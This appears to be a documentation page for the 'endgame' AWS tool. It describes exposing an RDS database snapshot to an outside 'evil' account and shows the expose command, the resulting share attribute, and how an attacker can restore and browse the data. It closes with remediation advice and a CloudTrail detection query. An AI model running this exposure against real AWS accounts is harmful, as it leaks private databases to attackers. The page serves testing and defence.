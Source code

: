 # RDS Snapshots

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service rds --name test-resource-exposure
```


* To view a list of the AWS Accounts that have access to the RDS DB Snapshot, run the following command from the victim account:

```bash
aws rds describe-db-snapshot-attributes \
    --db-snapshot-identifier test-resource-exposure
```


## Example

* Observe that the account ID of the evil principal (`999988887777`) is listed alongside the AttributeName called `restore`. This means that the evil account ID is able to restore the snapshot of the RDS database in their own account.

```json
{
    "DBSnapshotAttributesResult": {
        "DBSnapshotIdentifier": "test-resource-exposure",
        "DBSnapshotAttributes": [
            {
                "AttributeName": "restore",
                "AttributeValues": [
                    "999988887777"
                ]
            }
        ]
    }
}
```

## Exploitation

After the RDS snapshot is public or shared with the rogue user account, an attacker can then:
* [copy the snapshot](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/USER_CopySnapshot.html#USER_CopyDBSnapshot)
* [Restore a DB Instance from the DB Snapshot](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/CHAP_Tutorials.RestoringFromSnapshot.html)
* Browse the contents of the database, potentially revealing sensitive or otherwise non-public information.

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Encrypt all Snapshots with Customer-Managed Keys**: Follow the encryption-related recommendations in the [Prevention Guide](https://endgame.readthedocs.io/en/latest/prevention/#use-aws-kms-customer-managed-keys)
* **Trusted Accounts Only**: Ensure that RDS Snapshots are only shared with trusted accounts, and that the trusted accounts truly need access to the RDS Snapshots.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your RDS Snapshots**: Tightly control access to the following IAM actions:
      - [rds:DescribeDbClusterSnapshotAttributes](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBClusterSnapshotAttributes.html): _Grants permission to return a list of DB cluster snapshot attribute names and values for a manual DB cluster snapshot. This includes information on which AWS Accounts have access to the snapshot._
      - [rds:DescribeDbClusterSnapshots](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBClusterSnapshots.html): _Grants permission to return information about DB cluster snapshots._
      - [rds:DescribeDbSnapshotAttributes](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBSnapshotAttributes.html): _Grants permission to return a list of DB snapshot attribute names and values for a manual DB snapshot. This includes information on which AWS Accounts have access to the snapshot._
      - [rds:DescribeDbSnapshots](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_DescribeDBSnapshots.html): _Grants permission to return information about DB snapshots_
      - [rds:ModifyDBSnapshotAttribute](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_ModifyDBSnapshotAttribute.html): _Grants permission to add an attribute and values to, or removes an attribute and values from, a manual DB snapshot. This includes the ability to share snapshots with other AWS Accounts._
      - [rds:ModifyDBClusterSnapshotAttribute](https://docs.aws.amazon.com/AmazonRDS/latest/APIReference/API_ModifyDBClusterSnapshotAttribute.html): _Grants permission to add an attribute and values to, or removes an attribute and values from, a manual DB cluster snapshot. This includes the ability to share snapshots with other AWS Accounts._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='rds.amazonaws.com' AND (eventName='ModifyDBSnapshotAttribute' or eventName='ModifyDBClusterSnapshotAttribute' and requestParameters.attributeName='restore')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

- [aws rds modify-db-cluster-snapshot-attribute](https://docs.aws.amazon.com/cli/latest/reference/rds/modify-db-cluster-snapshot-attribute.html)
- [aws rds modify-db-snapshot-attribute](https://docs.aws.amazon.com/cli/latest/reference/rds/modify-db-snapshot-attribute.html)
- [aws rds describe-db-snapshot-attributes](https://docs.aws.amazon.com/cli/latest/reference/rds/describe-db-snapshot-attributes.html)
